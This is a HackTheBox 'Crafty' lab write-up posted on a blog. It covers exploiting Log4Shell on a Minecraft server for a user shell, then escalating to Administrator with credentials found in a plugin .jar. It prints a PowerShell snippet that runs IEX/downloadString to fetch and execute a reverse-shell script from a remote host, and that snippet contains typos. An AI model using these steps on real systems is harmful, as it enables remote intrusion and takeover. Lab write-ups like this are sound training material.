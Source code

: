 ```yaml
---
layout: post
title: "Crafty dac548b6abac405aab1cf0e7f0e9bf69"
date:   2025-07-10 12:05:57 -0400
categories: writeups
---
```


# Crafty

HackTheBox: Easy

## 1: Enumeration

- nmap scanning

![Untitled]({{ '/assets/images/80df4b3f-f3ae-4518-a352-b8f790d5a4e9-export-c6755c92-5aef-4c50-9878-b5fac3e5875c/80df4b3f-f3ae-4518-a352-b8f790d5a4e9-export-c6755c92-5aef-4c50-9878-b5fac3e5875c_Untitled.png' | relative_url }})

There are two http services, at 80 port we didn’t find anything useful

![Untitled]({{ '/assets/images/80df4b3f-f3ae-4518-a352-b8f790d5a4e9-export-c6755c92-5aef-4c50-9878-b5fac3e5875c/80df4b3f-f3ae-4518-a352-b8f790d5a4e9-export-c6755c92-5aef-4c50-9878-b5fac3e5875c_Untitled_1.png' | relative_url }})

5985 Port has a vulnerability, let’s see what can we do (CVE-2021-44228)

 This vulnerability, also known as Log4Shell or LogJam, allows remote code execution (RCE) attacks due to a flaw in the JNDI (Java Naming and Directory Interface) feature of Log4j.

Exploiting this vulnerability, attackers could craft malicious JNDI URLs that, when processed by Log4j, would result in the execution of arbitrary code. 

## 2: User flag

We clone the POC’s 

```bash
git clone https://github.com/kozmer/log4j-shell-poc
```

Change the cmd default(Linux) to windows one 

![Untitled]({{ '/assets/images/80df4b3f-f3ae-4518-a352-b8f790d5a4e9-export-c6755c92-5aef-4c50-9878-b5fac3e5875c/80df4b3f-f3ae-4518-a352-b8f790d5a4e9-export-c6755c92-5aef-4c50-9878-b5fac3e5875c_Untitled_2.png' | relative_url }})

Download the right java version

![Untitled]({{ '/assets/images/80df4b3f-f3ae-4518-a352-b8f790d5a4e9-export-c6755c92-5aef-4c50-9878-b5fac3e5875c/80df4b3f-f3ae-4518-a352-b8f790d5a4e9-export-c6755c92-5aef-4c50-9878-b5fac3e5875c_Untitled_3.png' | relative_url }})

![Untitled]({{ '/assets/images/80df4b3f-f3ae-4518-a352-b8f790d5a4e9-export-c6755c92-5aef-4c50-9878-b5fac3e5875c/80df4b3f-f3ae-4518-a352-b8f790d5a4e9-export-c6755c92-5aef-4c50-9878-b5fac3e5875c_Untitled_4.png' | relative_url }})

Download the minecraft client to establish connection with minecraft.

![Untitled]({{ '/assets/images/80df4b3f-f3ae-4518-a352-b8f790d5a4e9-export-c6755c92-5aef-4c50-9878-b5fac3e5875c/80df4b3f-f3ae-4518-a352-b8f790d5a4e9-export-c6755c92-5aef-4c50-9878-b5fac3e5875c_Untitled_5.png' | relative_url }})

Set the environment variables and activate them

![Untitled]({{ '/assets/images/80df4b3f-f3ae-4518-a352-b8f790d5a4e9-export-c6755c92-5aef-4c50-9878-b5fac3e5875c/80df4b3f-f3ae-4518-a352-b8f790d5a4e9-export-c6755c92-5aef-4c50-9878-b5fac3e5875c_Untitled_6.png' | relative_url }})

---

The ‘rlwrap’ command is a utility used in Unix operating systems and it just helps the experience using any command line program

![Untitled]({{ '/assets/images/80df4b3f-f3ae-4518-a352-b8f790d5a4e9-export-c6755c92-5aef-4c50-9878-b5fac3e5875c/80df4b3f-f3ae-4518-a352-b8f790d5a4e9-export-c6755c92-5aef-4c50-9878-b5fac3e5875c_Untitled_7.png' | relative_url }})

---

Start the poc using the following command and send the request

80 Is the port that will be open to establish connection.

4444 will be the port where we are going to receive the rev shell

![Untitled]({{ '/assets/images/80df4b3f-f3ae-4518-a352-b8f790d5a4e9-export-c6755c92-5aef-4c50-9878-b5fac3e5875c/80df4b3f-f3ae-4518-a352-b8f790d5a4e9-export-c6755c92-5aef-4c50-9878-b5fac3e5875c_Untitled_8.png' | relative_url }})

Establish connection with the minecraft client

![Untitled]({{ '/assets/images/80df4b3f-f3ae-4518-a352-b8f790d5a4e9-export-c6755c92-5aef-4c50-9878-b5fac3e5875c/80df4b3f-f3ae-4518-a352-b8f790d5a4e9-export-c6755c92-5aef-4c50-9878-b5fac3e5875c_Untitled_9.png' | relative_url }})

Send the command and get the user shell

![Untitled]({{ '/assets/images/80df4b3f-f3ae-4518-a352-b8f790d5a4e9-export-c6755c92-5aef-4c50-9878-b5fac3e5875c/80df4b3f-f3ae-4518-a352-b8f790d5a4e9-export-c6755c92-5aef-4c50-9878-b5fac3e5875c_Untitled_10.png' | relative_url }})

---

![Untitled]({{ '/assets/images/80df4b3f-f3ae-4518-a352-b8f790d5a4e9-export-c6755c92-5aef-4c50-9878-b5fac3e5875c/80df4b3f-f3ae-4518-a352-b8f790d5a4e9-export-c6755c92-5aef-4c50-9878-b5fac3e5875c_Untitled_11.png' | relative_url }})

## 3: Priv esc

> Looking around(C:\Users\svc_minecraft\server\plugins) we found a .jar file where we could find credentials, so let’s proceed to download it using netcat
> 

![Untitled]({{ '/assets/images/80df4b3f-f3ae-4518-a352-b8f790d5a4e9-export-c6755c92-5aef-4c50-9878-b5fac3e5875c/80df4b3f-f3ae-4518-a352-b8f790d5a4e9-export-c6755c92-5aef-4c50-9878-b5fac3e5875c_Untitled_12.png' | relative_url }})

![Untitled]({{ '/assets/images/80df4b3f-f3ae-4518-a352-b8f790d5a4e9-export-c6755c92-5aef-4c50-9878-b5fac3e5875c/80df4b3f-f3ae-4518-a352-b8f790d5a4e9-export-c6755c92-5aef-4c50-9878-b5fac3e5875c_Untitled_13.png' | relative_url }})

![Untitled]({{ '/assets/images/80df4b3f-f3ae-4518-a352-b8f790d5a4e9-export-c6755c92-5aef-4c50-9878-b5fac3e5875c/80df4b3f-f3ae-4518-a352-b8f790d5a4e9-export-c6755c92-5aef-4c50-9878-b5fac3e5875c_Untitled_14.png' | relative_url }})

We used this decompiler and we opened the file. 

![Untitled]({{ '/assets/images/80df4b3f-f3ae-4518-a352-b8f790d5a4e9-export-c6755c92-5aef-4c50-9878-b5fac3e5875c/80df4b3f-f3ae-4518-a352-b8f790d5a4e9-export-c6755c92-5aef-4c50-9878-b5fac3e5875c_Untitled_15.png' | relative_url }})

Good luck

![Untitled]({{ '/assets/images/80df4b3f-f3ae-4518-a352-b8f790d5a4e9-export-c6755c92-5aef-4c50-9878-b5fac3e5875c/80df4b3f-f3ae-4518-a352-b8f790d5a4e9-export-c6755c92-5aef-4c50-9878-b5fac3e5875c_Untitled_16.png' | relative_url }})

As we don’t have any open port to access as Administrator we have two options:

1. Using msfvenom create a evil .exe and execute it with administrator credentials
2. Create a revese power shell using those credentials, i have never done this technique so it looks interesting
    
    ![Untitled]({{ '/assets/images/80df4b3f-f3ae-4518-a352-b8f790d5a4e9-export-c6755c92-5aef-4c50-9878-b5fac3e5875c/80df4b3f-f3ae-4518-a352-b8f790d5a4e9-export-c6755c92-5aef-4c50-9878-b5fac3e5875c_Untitled_17.png' | relative_url }})
    
- Set up a python server with the revshell and try to trigger it using:

```powershell
#Create a secure password
$SecPass = ConverTo-SecureString 'password' -AsPlainText -Force
#Crearte a credential
$cred = New-Object System.Management.Automation.PSCredential('Administrator',$SecPass)
#Execute a script which starts on powershell
Start-Process -FilePath "powershell" -argumentlist 
#First argument and download and execurte the script .ps1
"IEX(New-Object Net.WebClient).downloadString('http://ip:port/revshel.ps1')"
#Execute it as admin
-Credential $cred
```

![Untitled]({{ '/assets/images/80df4b3f-f3ae-4518-a352-b8f790d5a4e9-export-c6755c92-5aef-4c50-9878-b5fac3e5875c/80df4b3f-f3ae-4518-a352-b8f790d5a4e9-export-c6755c92-5aef-4c50-9878-b5fac3e5875c_Untitled_18.png' | relative_url }})

![Untitled]({{ '/assets/images/80df4b3f-f3ae-4518-a352-b8f790d5a4e9-export-c6755c92-5aef-4c50-9878-b5fac3e5875c/80df4b3f-f3ae-4518-a352-b8f790d5a4e9-export-c6755c92-5aef-4c50-9878-b5fac3e5875c_Untitled_19.png' | relative_url }})

![Untitled]({{ '/assets/images/80df4b3f-f3ae-4518-a352-b8f790d5a4e9-export-c6755c92-5aef-4c50-9878-b5fac3e5875c/80df4b3f-f3ae-4518-a352-b8f790d5a4e9-export-c6755c92-5aef-4c50-9878-b5fac3e5875c_Untitled_20.png' | relative_url }})
<script src="{{ '/assets/js/matrix-overlay.js' | relative_url }}"></script>
